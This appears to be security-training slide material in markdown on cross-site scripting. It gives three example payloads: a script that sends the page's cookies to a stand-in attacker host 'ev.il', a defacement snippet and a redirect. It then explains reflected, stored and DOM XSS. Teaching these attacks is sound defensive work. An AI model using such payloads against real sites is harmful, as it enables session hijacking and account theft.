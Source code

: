 
# XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user
  input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is
  viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications
  dynamically include attacker-controllable data to a page

_:information_source: The previous example vulnerability and exploit of
`results.jsp` is a typical Reflected XSS._

---



# Reflected XSS

![Монгол: Reflected XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0](images/02-03-xss/reflected-xss.png)